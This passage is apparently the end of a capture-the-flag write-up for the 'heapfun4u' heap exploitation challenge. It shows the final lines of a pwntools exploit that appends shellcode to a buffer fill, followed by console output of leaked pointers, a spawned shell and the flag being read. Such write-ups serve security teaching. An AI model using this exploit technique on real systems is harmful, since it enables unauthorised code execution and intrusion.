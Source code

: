 ```python
payload  = 'AAAAAAAA' * 2 # fill buffer 1
payload += shellcode

write('4', payload)
leave()

r.interactive()
```

Once executed:

```bash
$ ./payload.py
[+] Opening connection to heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me on port 3957: Done
[*] leaked stack ptr: 0x7fffdfb31ffc
[*] saved rip at:     0x7fffdfb32138
[*] forward ptr addr: 0x7fa1d8757008
[*] its content:      0x5e073db130
[*] sanity check:     0x7fffdfb32138
[*] Switching to interactive mode
Leave
$ ls
flag
heapfun4u
$ cat flag
The flag is: Oh noze you pwned my h33p.
$
```
